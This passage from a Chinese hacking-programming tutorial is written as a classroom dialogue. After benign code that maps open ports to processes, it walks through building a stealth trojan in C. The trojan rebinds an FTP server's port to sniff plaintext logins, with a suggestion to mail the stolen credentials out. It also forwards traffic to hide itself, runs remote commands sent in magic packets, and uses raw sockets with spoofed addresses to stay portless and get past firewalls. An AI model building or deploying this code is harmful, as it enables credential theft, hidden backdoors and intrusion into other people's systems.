“安装了SDK后，我们可以方便地使用一些结构和函数。其实没有SDK，也难不倒我们，我们可以直接定义结构，用**GetProcAddress**获得函数地址再调用。那些没有公开的函数就是这么实现编程的。”

“这里我们也要使用两个没有公开的函数**AllocateAndGetTcpExTableFromStack**以及**AllocateAndGetUdpExTableFromStack**。它们只是在XP下才有的，2000以前只有**AllocateAndGetTcpTableFromStack**和**AllocateAndGetUdpTableFromStack**。两者相差Ex，就是加强的意思。在XP的ExTable（加强Table）中，才有对应的PID值。”

“两个函数的原型如下。”

```c
DWORD AllocateAndGetTcpExTableFromStack(
    PMIB_TCPEXTABLE *pTcpTable,
    BOOL bOrder,
    HANDLE heap,
    DWORD zero,
    DWORD flags
);

DWORD AllocateAndGetUdpExTableFromStack(
    PMIB_UDPEXTABLE *pUdpTable,
    BOOL bOrder,
    HANDLE heap,
    DWORD zero,
    DWORD flags
);
```

第一个参数pTcpTable或pUdpTable为列举后返回的PMIB_TCPEXTABLE或PMIB_UDPEXTABLE。这两个table的结构定义如下：

```c
typedef struct tagMIB_TCPEXTABLE{
    DWORD dwNumEntries;
    MIB_TCPEXROW table[ANY_SIZE];
} MIB_TCPEXTABLE, *PMIB_TCPEXTABLE;

typedef struct tagMIB_UDPEXTABLE{
    DWORD dwNumEntries;
    MIB_UDPEXROW table[ANY_SIZE];
} MIB_UDPEXTABLE, *PMIB_UDPEXTABLE;
```

“可以看出，列表中分别存了MIB_TCPEXROW和MIB_UDPEXROW数组。而这两个结构分别为：”

```c
typedef struct tagMIB_TCPEXROW{
    DWORD dwState;        // state of the connection
    DWORD dwLocalAddr;    // address on local computer
    DWORD dwLocalPort;    // port number on local computer
    DWORD dwRemoteAddr;   // address on remote computer
    DWORD dwRemotePort;   // port number on remote computer
    DWORD dwProcessId;
} MIB_TCPEXROW, *PMIB_TCPEXROW;

typedef struct tagMIB_UDPEXROW{
    DWORD dwLocalAddr;    // address on local computer
    DWORD dwLocalPort;    // port number on local computer
    DWORD dwProcessId;
} MIB_UDPEXROW, *PMIB_UDPEXROW;
```

“哦，结构中的连接信息应有尽有啊，本地地址、本地端口、远程地址、远程端口、连接状态以及我们最最最需要的PID值。”小菜们说道。

“是的。这样我们实现就简单了，直接定义TCP和UDP的ExTable。”

```c
PMIB_TCPEXTABLE TCPExTable;
PMIB_UDPEXTABLE UDPExTable;
```

“然后直接调用这两个加强函数，列表会存在TCPExTable和UDPExTable中。”

```c
nRetCode = pAllocateAndGetTcpExTableFromStack(&TCPExTable, TRUE,
    GetProcessHeap(), 2, 2);
nRetCode = pAllocateAndGetUdpExTableFromStack(&UDPExTable, TRUE,
    GetProcessHeap(), 2, 2);
```

“接着就可以分析table中的每一个ExROW，打印出每个的地址、端口、状态以及我们最想要的进程PID值。”

```c
for(i = 0; i < TCPExTable->dwNumEntries; i++) // 每一个TCP Row
{
    sprintf(szLocalAddress, "%s:%s",
        GetIp(TCPExTable->table[i].dwLocalAddr, szLocalName),
        GetPort(TCPExTable->table[i].dwLocalPort, szLocalPort));
    sprintf(szRemoteAddress, "%s:%s",
        GetIp(TCPExTable->table[i].dwRemoteAddr, szRemoteName),
        GetPort(TCPExTable->table[i].dwRemotePort, szRemotePort));
    printf("%-6s%-22s%-22s%-11s:%d\n", "TCP:",
        szLocalAddress, szRemoteAddress,
        TcpState[TCPExTable->table[i].dwState],
        szProcessName,
        TCPExTable->table[i].dwProcessId);
}
```

“这样实现了netstat -ano一模一样的功能，打印出各个端口和对应进程的PID值。”

“但现在只能看到PID，还要根据PID在资源管理器中找出具体是哪个进程，操作起来也很麻烦，能不能做得更好一点呢？”小菜们说道。

“其实有了PID，打印进程名是很简单的事情，不知道MS的大牛们为什么不列出来。”老师说道，“我们来实现它吧。首先编个小程序，得到系统所有进程的信息，当然包括开启进程的EXE文件名。”

“用CreateToolhelp32Snapshot函数可以得到系统进程的快照句柄，函数如下。”

原型：

```c
HANDLE WINAPI CreateToolhelp32Snapshot(
    DWORD dwFlags,
    DWORD th32ProcessID
);
```

参数：

第一个参数dwFlags指明要获取的快照类型。可以取的值有：

```c
TH32CS_INHERIT     表明该快照句柄可被继承；
TH32CS_SNAPALL     获取指定进程中所有的进程和线程以及堆和模块的快照；
TH32CS_SNAPHEAPLIST 获取指定进程的堆列表快照；
TH32CS_SNAPMODULE  获取指定进程的所有模块快照；
TH32CS_SNAPPROCESS 获取系统中的所有进程的快照，我们使用这个参数；
TH32CS_SNAPTHREAD  获取系统中的所有线程快照。
```

第二个参数th32ProcessID指明要获得的Process的ID。如果取0指当前进程，这个参数只在第一个Flag参数取TH32CS_SNAPHEAPLIST、TH32CS_SNAPMODULE或TH32CS_SNAPALL时才有用，其他时候该参数被忽略，所有的进程都包含在快照中。

“得到快照句柄后，我们再用Process32First、Process32Next函数遍历系统进程快照，得到每个进程的信息。”

```c
BOOL WINAPI Process32First(
    HANDLE hSnapshot,
    LPPROCESSENTRY32 lppe
);

BOOL WINAPI Process32Next(
    HANDLE hSnapshot,
    LPPROCESSENTRY32 lppe
);
```

第一个参数为快照句柄，由CreateToolhelp32Snapshot函数返回。

第二个参数指向函数返回的进程信息。进程的信息存在PROCESSENTRY32结构中。PROCESSENTRY32结构定义如下：

```c
typedef struct tagPROCESSENTRY32 {
    DWORD dwSize;
    DWORD cntUsage;
    DWORD th32ProcessID;
    ULONG_PTR th32DefaultHeapID;
    DWORD th32ModuleID;
    DWORD cntThreads;
    DWORD th32ParentProcessID;
    LONG pcPriClassBase;
    DWORD dwFlags;
    TCHAR szExeFile[MAX_PATH];
} PROCESSENTRY32, *PPROCESSENTRY32;
```

“该结构中的信息应有尽有。最后一个szExeFile就是我们想要的EXE的文件名。有了这些函数和结构，我们实现进程和EXE对应编码如下。”

“先建立系统所有进程的快照。”

```c
hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
Process32First(hProcessSnap, &pe32);
```

“然后遍历快照，这里我们打印出系统中所有ProcessID和对应的Exe文件。”

```c
printf("PID\t\tExeFile.txt\n");

do
{
    printf("%d\t\t", pe32.th32ProcessID);
    printf("%s\t\t\n", pe32.szExeFile);
}
while (Process32Next(hProcessSnap, &pe32));


```

“执行结果如图6.8。我们只要把这部分代码加进获取端口的程序中，将端口对应PID的进程名打印出来，就和fport的效果一样了。”
图6.8

## 小结

“最后这一点留给大家下去实现吧。注意这个方法只适合XP和以后的系统，在2000下关联可以用其他的方法。”老师说道，“现在有这么多方法和工具可以发现端口以及对应的进程，所以我们的当务之急是……”

“端口隐藏，加强木马的隐藏性！”小菜们答道。

## 6.2 端口复用实现隐藏端口

“隐藏端口有多种方法。隐藏端口的第一种方法，是复用已有开放服务的端口。”老师说道，“一台FTP和Web服务器，本身就开了21端口和80端口，如果我们的木马能使用21端口或80端口来通信，那么就使用了一个合法的端口，而且不会被防火墙阻隔。”

“在我们前面的程序中，服务端的绑定语句都基本如下：”

```c
s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
saddr.sin_addr.s_addr = htonl(INADDR_ANY);
bind(s, (SOCKADDR *)&saddr, sizeof(saddr));
```

“在Windows的Socket服务器应用的编程中，这语句也非常常见。但其实这样的写法有很大的问题。”

“啊？”小菜们瞪大了眼睛，“很大的问题？？那我们不白学了？老师别拿我们开心了！”

“不是，不是。该写法完成一般的通信功能没有任何问题，但更深层次的问题是采用该写法，另一个程序可以重复对端口进行绑定，而且没有权限之分！也就是说，我们的木马的确可以重复使用21端口或80端口来通信，达到隐藏端口的目的。”

“如果木马程序对端口重新绑定，数据包到来时，系统根据谁指定最明确传给谁的原则，那么木马就完全可以截获数据包，并有如下的利用思路。”

- 第一，木马程序绑定到一个已经合法存在的端口上进行端口的隐藏。通过自己特定的包格式判断是不是自己的包，如果是，就由木马处理；如果不是，则通过127.0.0.1的地址交给真正的服务器应用处理。
- 第二，木马可以在低权限用户上绑定高权限的服务应用的端口，进行该处理信息的嗅探。本来在一个主机上监听一个Socket的通信需要具备非常高的权限要求，但其实利用Socket重绑定，就可以轻易地监听具备这种Socket编程漏洞的通信，而无须采用什么挂接、钩子或低层的驱动技术，这些都需要具备管理员权限才能达到。
- 第三，针对一些特殊应用，可以发起中间人攻击，从低权限用户上获得信息或欺骗。如在guest权限下拦截telnet服务器的23端口，如果是采用NTLM加密认证，虽然无法通过嗅探直接获取密码，但一旦有admin用户通过你登录以后，木马就完全可以发起中间人攻击，扮演这个登录的用户通过Socket发送高权限的命令，达到入侵的目的。
- 第四，对于构建的Web服务器，入侵者只需要获得低级的权限，就可以完全达到更改网页的目的。然后扮演服务器给予连接请求应答，甚至是基于电子商务上的欺骗，获取非法的数据。

“这么厉害的利用？”小菜们的眼睛更大了，“真是秘密武器啊！快实现看看。”

### 6.2.1 直接替代原服务

“一般的socket不允许端口复用，在一般情况下尝试重复绑定一个端口，bind函数会失败。但要实现重复绑定很简单，只要用setsockopt函数设置socket的SO_REUSEADDR属性，就可以了。”

“具体实现代码如下。”

```c
// 建立socket
s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
// 设置socket SO_REUSEADDR属性，达到重复绑定目的
setsockopt(s, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val));
// 重新绑定127.0.0.1:21端口
saddr.sin_family = AF_INET;
saddr.sin_addr.s_addr = inet_addr("127.0.0.1");
saddr.sin_port = htons(21);
// 绑定
bind(s, (SOCKADDR *)&saddr, sizeof(saddr));


```

“然后接受用户的连接，sc = accept(s, (struct sockaddr *)&csaddr, &caddsize);”。

“接下来的处理就和一般的网络程序一样了，我们测试测试，把我们的木马重新绑定Serv-U使用的21端口，当用户FTP登录21端口时，就直接进入我们的木马程序了。”

“哦！真的把服务端口占用了。”小菜们看了执行效果后说道，“但这样一来原来的服务就不能用了，能改进下利用方法吗？”

### 6.2.2 转发给原服务实现嗅探

老师说道：“为了不影响正常的应用，在绑定时我们指定一个具体的IP接口，留下127.0.0.1给原来的FTP服务。木马收到客户连接后，利用127.0.0.1这个地址转发请求和应答，服务显得很正常，别人就不会发现了，利用示意如图6.9。”
# 黑客编程入门

“实现时绑定一个具体的 IP 接口，这里我的机器是 192.168.0.10。”

```c
saddr.sin_family = AF_INET;
saddr.sin_addr.s_addr = inet_addr("192.168.0.10");
saddr.sin_port = htons(21);
bind(s, (SOCKADDR *)&saddr, sizeof(saddr));
```

“然后接受用户的连接，sc = accept(s, (struct sockaddr *)&caddr, &caddsize);”

“用户连接 192.168.0.10 的 21 端口，会被我们木马截住；木马再用 127.0.0.1 地址连接原来的 FTP 服务。”

```c
// 连接 127.0.0.1
saddr.sin_family = AF_INET;
saddr.sin_addr.s_addr = inet_addr("127.0.0.1");
saddr.sin_port = htons(21);
```

“收到用户发送的数据后，木马嗅探打印，然后转发给 127.0.0.1 地址的原 FTP 服务，原 FTP 服务应答后，木马又发回给客户，代码如下。”

```c
// 连接原 FTP 服务
connect(sc, (SOCKADDR *)&saddr, sizeof(saddr));
// 接收，嗅探，转发
while(1)
{
    // 接收客户数据
    num = recv(ss, (char *)buf, 4096, 0);
    if(num > 0)
    {
        // 嗅探打印
        buf[num] = '\0';
        printf("%s", buf);
        // 转发给原 FTP 服务
        send(sc, (char *)buf, num, 0);
    }
    else if(num == 0)
        break;
    // 得到 FTP 服务应答
    num = recv(sc, (char *)buf, 4096, 0);
    // 回送给客户
    if(num > 0)
        send(ss, (char *)buf, num, 0);
    else if(num == 0)
        break;
}
```

“合起来，代码为。”

```c
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#pragma comment(lib, "Ws2_32")
DWORD WINAPI ClientThread(LPVOID lpParam);
int main()
{
    WORD wVersionRequested;
    DWORD ret;
    WSADATA wsaData;
    BOOL val;
    SOCKADDR_IN saddr;
    SOCKADDR_IN scaddr;
    int err;
    SOCKET s;
    SOCKET sc;
    int caddsize;
    HANDLE mt;
    DWORD tid;

    wVersionRequested = MAKEWORD(2, 2);
    err = WSAStartup(wVersionRequested, &wsaData);
    if (err != 0) {
        printf("error!WSAStartup failed!\n");
        return -1;
    }

    saddr.sin_family = AF_INET;
```

截听虽然也可以将地址指定为 INADDR_ANY，但是在不能影响正常应用情况下，应该指定具体的 IP，留下 127.0.0.1 给正常的服务应用，然后利用这个地址进行转发，就可以不影响对方正常应用了。

```c
saddr.sin_addr.s_addr = inet_addr("192.168.0.10");
saddr.sin_port = htons(21);
if ((s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) == SOCKET_ERROR)
{
    printf("error!socket failed!\n");
    return -1;
}

val = TRUE;
// SO_REUSEADDR 选项就是可以实现端口重绑定的
if (setsockopt(s, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val)) != 0)
{
    printf("error!setsockopt failed!\n");
    return -1;
}

// 如果指定了 SO_EXCLUSIVEADDRUSE，就不会绑定成功，返回无权限的错误代码
// 如果是想通过重利用端口达到隐藏的目的，就可以动态地测试当前已绑定的端口哪一个可以
// 成功，就说明具备这个漏洞，然后动态利用端口使得更隐蔽
// 其实 UDP 端口一样可以这样重绑定利用，这儿主要以 FTP 服务为例子进行攻击
if (bind(s, (SOCKADDR *)&saddr, sizeof(saddr)) == SOCKET_ERROR)
{
    ret = GetLastError();
    printf("error!bind failed!\n");
    return -1;
}
listen(s, 2);
while(1)
{
    caddsize = sizeof(scaddr);
    // 接受连接请求
    sc = accept(s, (struct sockaddr *)&scaddr, &caddsize);
    if(sc != INVALID_SOCKET)
    {
        mt = CreateThread(NULL, 0, ClientThread, (LPVOID)sc, 0, &tid);
        if(mt == NULL)
        {
            printf("Thread Create Failed!\n");
            break;
        }
    }
    CloseHandle(mt);
}
closesocket(s);
WSACleanup();
return 0;
}
DWORD WINAPI ClientThread(LPVOID lpParam)
{
    SOCKET ss = (SOCKET)lpParam;
    SOCKET sc;
    unsigned char buf[4096];
    SOCKADDR_IN saddr;
    long num;
    DWORD val;
    DWORD ret;
    // 如果是隐藏端口应用的话，可以在此处加一些判断
    // 如果是自己的包，就可以进行一些特殊处理；不是的话通过 127.0.0.1 进行转发
    saddr.sin_family = AF_INET;
    saddr.sin_addr.s_addr = inet_addr("127.0.0.1");
    saddr.sin_port = htons(21);
    if((sc = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) == SOCKET_ERROR)
    {
        printf("error!socket failed!\n");
        return -1;
    }
    val = 100;
    if(setsockopt(sc, SOL_SOCKET, SO_RCVTIMEO, (char *)&val, sizeof(val)) != 0)
    {
        ret = GetLastError();
        return -1;
    }
    if(setsockopt(ss, SOL_SOCKET, SO_RCVTIMEO, (char *)&val, sizeof(val)) != 0)
    {
        ret = GetLastError();
        return -1;
    }
    if(connect(sc, (SOCKADDR *)&saddr, sizeof(saddr)) != 0)
    {
        printf("error!socket connect failed.\n");
        closesocket(sc);
        closesocket(ss);
        return -1;
    }
    while(1)
    {
        // 下面的代码主要是实现通过 127.0.0.1 这个地址把包转发到真正的应用上，并把应答的包再转发回去。
        // 如果是嗅探内容的话，此处进行内容分析和记录。
        // 如果是攻击如 FTP 服务器，利用其高权限登录用户的话，可以分析其登录用户，
        // 然后利用发送特定的包以劫持用户身份执行。
        num = recv(ss, (char *)buf, 4096, 0);
        if(num > 0)
        {
            // 嗅探打印
            buf[num] = '\0';
            printf("%s", buf);
            send(sc, (char *)buf, num, 0);
        }
        else if(num == 0)
            break;
        num = recv(sc, (char *)buf, 4096, 0);
        if(num > 0)
            send(ss, (char *)buf, num, 0);
        else if(num == 0)
            break;
    }
    closesocket(ss);
    closesocket(sc);
    return 0;
}


```

“我们测试一下，木马重新绑定 FTP 服务的 21 端口，当用户使用 FTP 登录时，木马从中转发，实现用户数据的嗅探和打印，并且不影响原来的服务，如图 6.10。”

“大家看，用户输入的用户名、密码都可以得到，而且 FTP 的密码是明文传输的，”老师说道，“我们就可以用前面讲的 SMTP 协议发到我们的邮箱了！”

“知识点前后贯穿起来了！”小菜们感叹道。

“是的，这下木马不影响原来的服务了，但还不能执行命令，我们进一步加入执行命令的功能吧。”
图 6.10

### 6.2.3 不影响原服务的木马

“刚才木马不管收到什么数据，都一股脑地转发给原服务了。”老师说道，“我们改进下，当收到用户数据后，作下判断，如果是给木马的包，就进入木马的功能处理；如果不是，才通过 127.0.0.1 转发给原服务，并把应答发送回去。”

“为了发送带特殊性的木马数据，我们写一个客户端，并定义木马协议如下。”

```c
#define MAGIC 0x08300830
typedef struct TrojProt
{
    int magic;
    char cmd[1024];
} TrojProt;
```

“木马数据的前四位是 0x08300830，后面跟木马命令的字符串。”

“客户端发送命令前，按照预定义的木马协议填充。Magic 值设为预定义的 MAGIC，就是 0x08300830；然后跟上要执行的命令。”

```c
scanf("%s", buf);
TrojProt info;
info.magic = MAGIC;
strcpy(info.cmd, buf);
```

“填充好后，发送给服务端，并接收服务端的回应信息。”

```c
numbytes = send(sockfd, (char *)&info, sizeof(int) + strlen(buf), 0);
// 接收数据，并打印出来
numbytes = recv(sockfd, buf, MAXDATASIZE, 0);
buf[numbytes] = '\0';
printf("%s", buf);
```

“服务端收到数据后，进行判断，如果符合木马协议，就是数据的前四位是 0x08300830 的，就认为是木马客户端发来的包，从而进入木马功能的处理；否则，就转发给原来的 FTP 服务。”

```c
// 符合木马协议，进入木马功能处理
if (((TrojProt*)buf)->magic == MAGIC)
{
    buf[num] = '\0';
    Fun(((TrojProt*)buf)->cmd, ss);
}
// 否则转发
else
{
    send(sc, (char*)buf, num, 0);
}


```

“这样处理后，我们运行木马客户端，和 FTP 服务执行两不干扰了，如图 6.11。”
图 6.11

## 小结

“哇！这样的方法，真酷啊！那岂不是任何程序都有这个漏洞呀？”小菜们问道。

“这个问题的解决也很简单。在编写网络程序时，使用 setsockopt 指定 SO_EXCLUSIVEADDRUSE，要求独占端口地址，不允许复用，其他人就无法复用这个端口了。”老师说道，“我们就只有采用其他办法，比如用 Raw Socket 实现端口隐藏了。”

## 6.3 Raw Socket 隐藏

“之前我们编写的网络程序，操作系统帮我们完成了大部分功能，”老师说道，“大家回想一下，当我们进行 TCP 或 UDP 通信时，只需要操作系统返回给我们的一个句柄 SOCKET，然后直接利用该 SOCKET 发送我们的数据。我们不需要关心协议的格式、协议字段的填充、校验和的计算等工作。操作系统会帮我们完成所有的一切，所以我们编程实现网络通信看起来很‘轻松’。”

“而几乎所有的操作系统都提供了更‘底层’的网络编程方法——Raw Socket，也就是原始套接字。通过原始套接字，我们可以做更底层的工作，当然也需要我们自己构造协议头、作校验和填充等更多的工作，操作系统只是负责将数据发送出去，能够对网络底层的传输机制进行控制。”

### 6.3.1 Raw Socket 编程

“我们使用原始套接字编程，首先需要创建一个原始套接字。”

```c
SOCKET sock;
sock = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
```

或者：

```c
s = WSASocket(AF_INET, SOCK_RAW, IPPROTO_IP, NULL, 0, WSA_FLAG_OVERLAPPED);
```

“这里，我们使用 SOCK_RAW 标志，表示我们声明的是一个原始套接字类型。创建原始套接字后，IP 头就会包含在接收的数据中；如果我们设定 IP_HDRINCL 选项，那么 IP 头都需要我们自己构造。”

```c
BOOL binFlag = TRUE;
setsockopt(sock, IPPROTO_IP, IP_HDRINCL, (char *)&binFlag, sizeof(binFlag));
```

> **注意：** 如果需要设置 IP_HDRINCL 选项，那么必须具有 administrator 权限；要不就修改注册表：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Afd\Parameter\，修改键：DisableRawSecurity（类型为 DWORD），把值修改为 1；如果没有，就添加。

“创建套接字后，我们需要自己构造 IP 头部和 TCP 首部。和一般 socket 编程不同，自己要能构造数据包，需要很清楚地了解协议的头部和各字段的含义，以及 C 语言对协议结构的表示。大家翻翻前面的基础理论课程，有很详细的解释。”

“知道了各协议的 C 表示后，具体的实现为：”

```c
// 填充 IP 首部
ipHeader.h_verlen = (4 << 4 | sizeof(ipHeader) / sizeof(unsigned long)); // 填充协议版本 4 和头部长度 4
ipHeader.total_len = htons(sizeof(ipHeader) + sizeof(tcpHeader)); // 填充总长度
ipHeader.ident = 1; // 填充 16 位标识
ipHeader.frag_and_flags = 0; // 填充 3 位标志位
ipHeader.ttl = 128; // 填充 TTL 为 128
ipHeader.proto = IPPROTO_TCP; // 填充协议为 TCP
ipHeader.checksum = 0; // 先设置校验和为 0，后面再计算填充
ipHeader.sourceIP = inet_addr("127.0.0.1"); // 填充本地 IP 地址
ipHeader.destIP = inet_addr(argv[1]); // 填充目的 IP 地址

// 填充 TCP 首部
tcpHeader.th_dport = htons(atol(argv[2])); // 填充目的端口号
tcpHeader.th_sport = htons(SOURCE_PORT); // 源端口号
tcpHeader.th_seq = htonl(0x12345678); // 填充序列号
tcpHeader.th_ack = 0; // 填充确认号
tcpHeader.th_lenres = (sizeof(tcpHeader) / 4 << 4 | 0); // 填充长度和保留位
tcpHeader.th_flag = 2; // 修改这里来实现不同的标志位探测；2 是 SYN；1 是 FIN；16 是 ACK 探测，等等
tcpHeader.th_win = htons(512); // 填充窗口大小
tcpHeader.th_urp = 0; // 填充紧急数据偏移量
tcpHeader.th_sum = 0; // 先设置校验和为 0，再计算填充
```

“所有的字段填充好后，就可以计算 IP 和 TCP 的校验和，并填充到校验和字段了。”

```c
// 计算校验和
// TCP 头部校验和
memcpy(szSendBuf, &psdHeader, sizeof(psdHeader));
memcpy(szSendBuf + sizeof(psdHeader), &tcpHeader, sizeof(tcpHeader));
tcpHeader.th_sum = checksum((USHORT *)szSendBuf, sizeof(psdHeader) + sizeof(tcpHeader));
// IP 头部校验和
memcpy(szSendBuf, &ipHeader, sizeof(ipHeader));
memcpy(szSendBuf + sizeof(ipHeader), &tcpHeader, sizeof(tcpHeader));
memset(szSendBuf + sizeof(ipHeader) + sizeof(tcpHeader), 0, 4);
ipHeader.checksum = checksum((USHORT *)szSendBuf, sizeof(ipHeader) + sizeof(tcpHeader));
memcpy(szSendBuf, &ipHeader, sizeof(ipHeader));
```

“填充头部稍微麻烦点，发送就相对简单多了。只需要使用 sendto()，操作系统就帮我们发送出去了。”

```c
sendto(sock, (char*)&tcpHeader, sizeof(tcpHeader), 0, (sockaddr*)&addr_in, sizeof(addr_in));
```

“这里再解释一下能这样通信的原因。计算机只是发出一个个网络数据包，到达网关或路由器后，由路由器完成目的地址和转发的过程。也就是说，主机可以完全不管其他事情，只管发送这种符合协议的包，而路由器也不管网络包来自的地方，只管解析找出包的目的地址，进行转发。”

“从上可以看出来，因为路由器根本没有考虑发送端填充的源 IP 地址的真实性，所以任何一台机器都可以冒充别的机器发送数据，只要把源 IP 地址填成别的机器的 IP 就可以了（只不过回应收不到，因为回应包发送到自己冒充的机器去了）。根本原因，是因为当年 IPv4 的宗旨是解决互联网互通的问题，想办法把世界各地的计算机连接起来，而没有更多的精力考虑安全性问题。而 IP 下一代标准 IPv6，把安全放在重要位置，当它大范围使用时，互联网的安全会大大改进。”

“回到我们的原始套接字编程。和发送原始套接字数据相比，接收就比较麻烦了。因为在系统下我们不能用 recv() 来接收 raw socket 上的数据。这是因为，当机器收到一个数据包回应时，都先递交给系统核心，核心判断后再传输到用户程序；当发送一个 raw socket 包的时候，核心并不知道，也没有这个数据被发送或者连接建立的记录，因此，当远端主机回应的时候，系统核心就把这些包都全部丢掉，从而到不了应用程序上。所以，就不能简单地使用接收函数来接收这些数据报。”

“要达到接收数据的目的，就必须采用嗅探，接收所有经过的数据包，然后进行筛选，留下符合我们需要的。”

“实现方法就是再定义一个原始套接字，用来完成接收数据的任务。在这个原始套接字上，设置 SIO_RCVALL 属性，表示接收所有的数据。”

```c
// 建立接收原始 socket
SOCKET sniffersock;
sniffersock = WSASocket(AF_INET, SOCK_RAW, IPPROTO_IP, NULL, 0, WSA_FLAG_OVERLAPPED);
DWORD IpvBuffer = 1;
DWORD IpcbBytesReturned = 0;
// 设置 socket 的属性为 SIO_RCVALL，接收所有数据
WSAIoctl(sniffersock, SIO_RCVALL, &IpvBuffer, sizeof(IpvBuffer), NULL, 0,
    &IpcbBytesReturned, NULL, NULL);
```

“之后再用 recv() 接收。这样接收到的是经过网卡的所有数据。程序要对数据进行判断，只处理自己感兴趣的数据。”

## 6.3.2 Raw Socket木马

```c
while(1)
{
    memset(pBuffer, 0, MAX_PACKET_SIZE);
    // 接收所有的数据
    nRecvBytes = recv(nSock, pBuffer, MAX_PACKET_SIZE, 0);
    if (SOCKET_ERROR == nRetCode)
    {
        printf("RECV Error!%d\n", WSAGetLastError());
        goto Exit0;
    }

    // 长度不够的包，不处理
    if (nRecvBytes < 40)
        continue;
    // 进入数据解码，如果是自己感兴趣的数据，就处理
    DecodeData(pBuffer);
}


```

“如果木马服务端采用原始套接字嗅探的方式接收数据，则完全表现得无端口、无连接状态。如果木马将命令的执行结果也用原始套接字的方法回送客户端，则还可实现无端口、无连接状态的反向连接，甚至实现地址隐藏，从而达到很好的隐蔽效果。”

“为了实现这样的效果，我们应该定义木马协议，这样在 DecodeData 函数中可以进行判断，如果符合木马协议，就处理用户发过来的木马命令，从而打造成一匹 Raw Socket 木马。”

“经过了这么久的学习，大家应该感觉到，协议是一切通信的基础。只有定义好了协议，通信问题才能顺利地解决。”老师说道，“像刚才我们构造的 IP 协议、TCP 协议等，每个字段都有不同的用处和存在的意义。通过这些规范的协议，才能让不同的机器、不同的系统、不同的程序互相发送数据并识别数据。”

“是啊，而且分层的思想，可以让我们由浅入深、由上层到底层地学习，对整个体系的逐步了解很有帮助啊。科学家、工程师们，考虑得多周到啊。”小菜们感叹道。

“是的，同样地，我们给木马定义一个协议，让木马的客户端和服务端都按这个协议处理，从而实现通信。”

“毫无疑问，木马数据应该跟在 IP 头部和 TCP 头部的后面，如图 6.12。”
“为了更加容易地判断是否是木马自己的数据，我们在 TCP 层上再封装一个木马层，先是木马协议的头部，再跟木马命令，整个结构如图 6.13。”
“我们参照 IP 协议和 TCP 协议，把木马头部的协议分为两部分，第一部分是一个标识符，只有符合这个值，才被认为是木马的数据；第二部分是长度值，指明后面跟的木马命令的长度。”

```c
typedef struct trojan_packet // 定义木马使用的协议
{
    unsigned int trojan_id;      // 木马数据包的标识，网络顺序
    unsigned short trojan_len;   // 执行命令长度，主机顺序
} TROJAN_HEADER, *PTROJAN_HEADER;
```

“而后面木马的命令数据，可以看成是木马封装的数据包。一个类似 IP、TCP 协议的自定义木马协议就构造好了。”

“有了木马协议后，木马客户端做的事情就简单了，只需要构造符合木马协议的数据包，然后发送给木马服务端。”

“客户端实现的第一种方法，是使用普通的 socket 发送木马数据给服务端。”

“这种方法和前面复用端口时编程类似。我们根据木马协议，先定义木马结构变量，再填充数据，最后用普通的 socket 发送到对方防火墙没有阻隔的端口。”

```c
TROJAN_HEADER Trojan;
Trojan.trojan_id = htons(TROJAN_ID_IDENTITY);
Trojan.trojan_len = nCommandLength;
strcpy(sendbuf, Trojan);
strcat(sendbuf, cmd);
send(s, sendbuf, strlen(sendbuf), 0);
```

“木马服务端嗅探到数据后，就会执行用户发送的木马命令。做到不知不觉，无息无声。”

“客户端实现的第二种方法，就是利用原始套接字。”

“我们使用原始套接字，就需要亲自去构造 IP 头部、TCP 头部、木马头部，当然还有木马命令。这样不仅帮助我们更好地理解协议，还可以在 IP 头部、TCP 头部中设置某些字段的特殊值，方便判断是否是木马自己的数据。比如，我们可以设置 TCP 头部里的序列号为一个特定的值，作为判断木马数据的另一个依据。”

“客户端执行时，首先获得要执行的命令和命令的长度。”

```c
// 获得需要执行的命令
nCommandLength = strlen(argv[2]);
pCommand = (char*)malloc(nCommandLength + 2);
memset(pCommand, 0, nCommandLength + 2);
memcpy(pCommand, argv[2], nCommandLength);
```

“然后建立原始套接字，nSock = socket(AF_INET, SOCK_RAW, IPPROTO_IP);”

“设置 IP_HDRINCL，nRetCode = setsockopt(nSock, IPPROTO_IP, IP_HDRINCL, (char*)&bOption, sizeof(bOption));”

“接着就填充 IP 协议头部和 TCP 协议首部。我们把 TCP 中的序列号字段填为一个特定的值，方便木马服务端识别。”

```c
// 填充IP头部
IP_Header.h_verlen = (4 << 4) | (sizeof(IP_HEADER) / sizeof(unsigned long));
IP_Header.tos = 0;
IP_Header.total_len = htons(sizeof(IP_HEADER) + sizeof(TCP_HEADER));
IP_Header.frag_and_flags = 0;
IP_Header.ttl = 128;
IP_Header.proto = IPPROTO_TCP;
IP_Header.checksum = 0;

IP_Header.sourceIP = GetLocalIP();        // 当然可以伪造自己的地址
IP_Header.destIP = inet_addr(argv[1]);    // 服务器端IP地址，如果是非交换网络，那么可以不是服务器的地址，而设置一个同网段或者同HUB的地址。

// 填充TCP首部
TCP_Header.th_sport = htons(LOCAL_PORT);   // 这个端口没有实际意义，但可以选择一个客户端开放的端口避开防火墙
TCP_Header.th_dport = htons(SERVER_PORT);  // 这个端口没有实际意义，但可以选择一个服务端开放的端口躲开防火墙
TCP_Header.th_seq = htons(SEQ_IDENTITY);   // 木马服务器端的识别标志
TCP_Header.th_ack = 345678;
TCP_Header.th_lenres = (sizeof(TCP_HEADER) / 4 << 4 | 0);
TCP_Header.th_flags = 0x01;                // 随意设置TCP标志位
TCP_Header.th_win = 12345;
TCP_Header.th_urp = 0;
TCP_Header.th_sum = 0;
```

“下面当然是填充木马协议头部了。标识符为一个预定义的特殊值，长度就是木马命令的长度了。”

```c
// 填充木马协议的头部
Trojan_Header.trojan_id = htons(TROJAN_ID_IDENTITY);
Trojan_Header.trojan_len = nCommandLength;
```

“数据都填充完毕后，我们计算校验和并将结果填充到校验和字段。”

```c
// 填充TCP伪首部（用于计算校验和）
PSD_Header.saddr = IP_Header.sourceIP;
PSD_Header.daddr = IP_Header.destIP;
PSD_Header.mbz = 0;
PSD_Header.ptcl = IPPROTO_TCP;
PSD_Header.tcpl = htons(sizeof(TCP_HEADER) + sizeof(TROJAN_HEADER) + nCommandLength);

// 计算TCP校验和
